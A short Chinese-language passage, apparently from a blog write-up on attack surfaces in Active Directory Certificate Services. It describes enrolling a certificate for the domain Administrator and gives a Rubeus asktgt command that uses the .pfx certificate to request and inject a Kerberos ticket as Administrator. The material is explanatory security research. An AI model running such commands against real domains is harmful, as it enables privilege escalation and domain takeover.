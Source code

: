 ![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/geXjGHpbKv8QArT.png)

如上图所示，成功为域管理员用户 Administrator 注册了一个证书。在使用 openssl 转换为 .pfx 格式后，这个证书允许我们通过以 Administrator 的身份请求一个 TGT，相关命令如下。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:Administrator /certificate:C:\Users\Marcus\cert.pfx /password:Passw0rd /ptt
```
